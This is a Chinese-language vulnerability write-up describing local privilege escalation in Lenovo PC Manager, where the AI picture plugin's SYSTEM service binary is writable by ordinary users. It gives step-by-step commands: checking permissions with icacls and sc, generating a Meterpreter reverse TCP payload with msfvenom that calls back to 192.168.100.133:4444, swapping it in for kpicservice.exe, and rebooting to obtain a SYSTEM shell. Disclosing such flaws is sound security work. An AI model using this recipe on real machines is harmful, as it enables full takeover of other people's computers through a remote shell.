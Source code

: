 学习本地权限提升的过程中无意中发现的。

在联想电脑管家的任意版本中，联想电脑管家的工具都存在权限缺陷，只要是下载的工具，普通用户拥有 F 权限（完全权限）

![](https://cdn.nlark.com/yuque/0/2025/png/35229002/1749113267870-6d93022b-0230-4b36-809e-c0e6a8c8004f.png)

由于所有版本的工具都存在权限问题，普通用户可以进如 admin 权限，这边使用 ai 看图插件演示，因为其有 system 权限服务，可以提升至 system，在 5.1.100.1102 之前，联想电脑管家存在插件 AI 看图

![](https://cdn.nlark.com/yuque/0/2025/png/35229002/1749129976066-e2419c85-0126-437c-9252-5de07ed3ebba.png)

在安装 AI 看图插件后，其存在一个可持续服务

```plain
C:\ProgramData\Lenovo\devicecenter\modules\aipicture\5.1.80.8121\kpicservice.exe
```

![](https://cdn.nlark.com/yuque/0/2025/png/35229002/1749113318875-528fb332-1648-4d10-bceb-bfbf7908fe7d.png)

使用 icacls 查看其文件权限

![](https://cdn.nlark.com/yuque/0/2025/png/35229002/1749113352091-c2cb863e-8134-44be-b7ea-97cf326195a2.png)

发现普通 Users 权限为 I F，完全权限，创建一个普通用户

![](https://cdn.nlark.com/yuque/0/2025/png/35229002/1749113751934-11d5b11b-61c3-4f2a-8a1a-5ea5b25163dd.png)



切入攻击视角，在 Administors 用户组未登入的情况下，需要注销所有用户，我们再进入 user1 用户，使用 sc 查看服务，其用户为 LocalSystem

```plain
sc qc KPICService_Lenovo
```

![](https://cdn.nlark.com/yuque/0/2025/png/35229002/1749114713044-1c54a835-1468-4338-9906-3f49c01e8bcd.png)

其中 C:\ProgramData\Lenovo\devicecenter\modules\aipicture\5.1.80.8121\kpicservice.exe 就是普通用户拥有完全控制的文件

![](https://cdn.nlark.com/yuque/0/2025/png/35229002/1749115192782-64aec286-a522-4ce0-9bb7-816b72477da3.png)

但是因为限制，该服务会一直占用，普通用户需要 admin 才能进行关闭

尝试更换思路：因为普通用户有完全控制权限，普通用户将文件进行移动，重启时，服务读取配置路径，还是会以 LocalSystem 运行 kpicservice.exe



现在开始实践，先生成一个 kpicservice.exe

```plain
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.100.133 LPORT=4444 -f exe -o kpicservice.exe
```

同时将原文件路径进行移动 ，并将 shell 替换原文件的 kpicservice.exe

```plain
move C:\ProgramData\Lenovo\devicecenter\modules\aipicture\5.1.80.8121\kpicservice.exe kpicservice.exe
move Desktop\kpicservice.exe C:\ProgramData\Lenovo\devicecenter\modules\aipicture\5.1.80.8121\kpicservice.exe
```

![](https://cdn.nlark.com/yuque/0/2025/png/35229002/1749135025757-80e763a1-1066-4365-a5f5-dd3b05c53613.png)

此时再重启设备，服务会启动路径中即被替换的 kpicservice ，获得 system 权限

![](https://cdn.nlark.com/yuque/0/2025/png/35229002/1749135262841-f8e59ef4-de58-408b-81ea-f7caedb7f6c1.png)


